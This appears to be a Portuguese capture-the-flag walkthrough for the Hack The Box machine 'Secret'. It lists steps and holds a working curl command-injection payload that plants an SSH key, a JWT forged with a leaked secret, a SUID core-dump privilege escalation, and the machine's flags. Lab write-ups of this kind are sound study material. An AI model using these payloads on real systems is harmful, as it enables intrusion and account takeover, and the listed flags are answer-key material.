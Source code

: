 #  Secret

1. Criar usuario via API /api/user/register
2. Obter o JWT /api/user/login
3. Baixar *source code* e encontrar falhas de *command injection* no /api/logs
4. Encontrar TOKEN_SECRET que cria o JWT
5. Criar JWT com usuario *theadmin*
6. Adicionar chave ssh em authorized_keys do user
7. Encontrar falha no código do arquivo com *SUID* de *core dump* e explorar
9. Obter chave ssh

* [JWT Cracker](https://github.com/lmammino/jwt-cracker)
* [JWT.io](https://jwt.io)
* [drt.sh htb-secret](https://drt.sh/posts/htb-secret/)

````c
//code that allows core dumps
prctl(PR_SET_DUMPABLE, 1)
````

````shell
# Add ssh-key in authorized_keys
curl -i \
--get \
-H 'Host: 10.10.11.120:3000' \
-H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5MDAwNTY2YTdlNTA0NjhhNGFlNGIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQxNzM2NTYzfQ._9whmuv0q2nCEld42Mf3NlvGBXBYpuKPnr9_5MY2TXY' \
--data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" 'http://10.10.11.120:3000/api/logs'
````

````shell
#Explore SUID elf with core dump
./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
ps
    PID TTY          TIME CMD
   2213 pts/4    00:00:00 bash
   2373 pts/4    00:00:00 count
   2374 pts/4    00:00:00 ps

kill -SIGSEGV 2373 #or kill -BUS pid
fg
./count
Bus error (core dumped)

$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash-report
$ strings /tmp/crash-report/CoreDump
````

## SECRETS




* TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
* JWT_HEADER = { "alg": "HS256","typ": "JWT"} JWT_PAYLOAD: { "_id": "61d9000566a7e50468a4ae4b","name": "theadmin","email": "root@dasith.works","iat": 1641736563 }
* FLAG_USER = fbbbc22182e757fe6d1a2668fba16fec
* FLAG_ROOT = 2d8736c5551138592e8cd56a3b4e219e

